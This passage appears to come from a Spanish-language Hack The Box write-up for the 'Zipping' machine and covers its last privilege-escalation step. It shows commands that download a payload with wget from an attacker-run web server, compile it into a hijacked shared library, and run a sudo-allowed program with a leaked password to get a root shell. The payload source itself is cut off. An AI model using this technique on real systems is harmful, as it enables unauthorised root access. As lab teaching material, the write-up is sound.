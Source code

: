 ```c
}
```
Este código ejecuta `/bin/sh` para obtener una shell y como esto se ejecutará con sudo lograremos obtener una shell del root.
- Ahora vamos a pasar este archivo a la máquina víctima, para ello iniciamos nuestro servidor web.
```bash
python3 -m http.server 80
```
- Descargamos el archivo en la máquina víctima.  
```bash
wget http://10.10.14.160/lib4.c
```
![Desktop View](/writeup-htb-zipping/download.png)
_Descarga archivo c_
- Generamos el archivo `libcounter.so` mediante el uso del archivo `.c`.  
```bash
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC lib4.c
```
![Desktop View](/writeup-htb-zipping/generar libcounter.png)
_certipy find_
- Por último ejecutamos el programa con sudo.
```bash
sudo /usr/bin/stock
```
Colocamos el password `St0ckM4nager` y tenemos nuestra shell como root.  
![Desktop View](/writeup-htb-zipping/stock3.png)
_Ejecución programa stock con sudo_
  
Cambiamos la shell a `/bin/bash` para más comodidad y nos dirigimos a la carpeta de root donde está nuestro flag `root.txt`.  
![Desktop View](/writeup-htb-zipping/root flag.png)
_Flag del root_
> Espero les haya gustado este post, nos vemos en una siguiente oportunidad.  
`¡Happy Hacking!` `¡You can be root!`


